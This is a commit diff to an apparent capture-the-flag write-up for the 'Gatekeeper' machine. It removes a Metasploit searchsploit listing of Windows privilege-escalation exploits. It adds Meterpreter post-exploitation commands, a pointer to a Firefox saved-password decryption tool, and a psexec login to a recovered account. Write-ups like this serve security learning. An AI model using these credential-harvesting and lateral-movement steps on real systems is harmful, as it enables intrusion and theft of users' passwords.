

Before and after one commit to tymyrddin/red-bo, a Sphinx documentation site: the page built from source/docs/ctf/gatekeeper.md, in a window 1280 px wide and 900 px high, scrolled down 10534 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
gatekeeper

````diff
--- a/source/docs/ctf/gatekeeper.md
+++ b/source/docs/ctf/gatekeeper.md
@@ -560,36 +560,12 @@
     [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
     [*] Exploit completed, but no session was created.
 
-O dear. Back to the drawing board.
+O dear. Back to the drawing board. Ah.
 
 ```text
-msf6 exploit(windows/local/cve_2019_1458_wizardopium) > searchsploit windows 7 x64 escalation
-[*] exec: searchsploit windows 7 x64 escalation
+meterpreter > run post/windows/gather/enum_applications
+meterpreter > run post/windows/gather/enum_applications
+```
 
--------------------------------------------------------------------------------- ---------------------------------
- Exploit Title                                                                  |  Path
--------------------------------------------------------------------------------- ---------------------------------
-Fortinet FortiClient 5.2.3 (Windows 10 x64 Creators) - Local Privilege Escalati | windows_x86-64/local/45149.cpp
-Fortinet FortiClient 5.2.3 (Windows 10 x64 Post-Anniversary) - Local Privilege  | windows_x86-64/local/41722.c
-Fortinet FortiClient 5.2.3 (Windows 10 x64 Pre-Anniversary) - Local Privilege E | windows_x86-64/local/41721.c
-IKARUS anti.virus 2.16.7 - 'ntguard_x64' Local Privilege Escalation             | windows_x86-64/local/43139.c
-Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Co | windows_x86-64/local/47170.c
-Microsoft Windows (x86/x64) - 'Error Reporting' Discretionary Access Control Li | windows/local/46917.txt
-Microsoft Windows 10 (19H1 1901 x64) - 'ws2ifsl.sys' Use After Free Local Privi | windows_x86-64/local/47935.cpp
-Microsoft Windows 7 (x64) - 'afd.sys' Dangling Pointer Privilege Escalation (MS | windows_x86-64/local/39525.py
-Microsoft Windows 7 (x86/x64) - Group Policy Privilege Escalation (MS16-072)    | windows/local/40219.txt
-Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Local Privilege Escalation ( | windows/local/39809.cs
-Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privi | windows/local/40107.rb
-Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalatio | windows/local/39719.ps1
-Microsoft Windows 8.0/8.1 (x64) - 'TrackPopupMenu' Local Privilege Escalation ( | windows_x86-64/local/37064.py
-Microsoft Windows 8.1 (x86/x64) - 'ahcache.sys' NtApphelpCacheControl Privilege | windows/local/35661.txt
-Microsoft Windows 8.1 Update 2 / 10 10586 (x86/x64) - NtLoadKeyEx User Hive Att | windows/local/40429.cs
-Microsoft Windows < 8.1 (x86/x64) - User Profile Service Privilege Escalation ( | windows/local/35811.txt
-NoMachine < 6.0.80 (x64) - 'nxfuse' Privilege Escalation                        | windows_x86-64/local/44168.py
-Oracle VM VirtualBox 5.0.32 r112930 (x64) - Windows Process COM Injection Privi | windows_x86-64/local/41908.txt
-PCAUSA Rawether (ASUS PCE-AC56 WLAN Card Utilities Windows 10 x64) - Local Priv | windows_x86-64/local/41605.txt
--------------------------------------------------------------------------------- ---------------------------------
-Shellcodes: No Results
-Papers: No Results
-msf6 exploit(windows/local/cve_2019_1458_wizardopium) >
-```
+Then use the [Firefox Decrypt tool from Github](https://github.com/unode/firefox_decrypt), and log in to the "mayor"
+account using `psexec`.
````
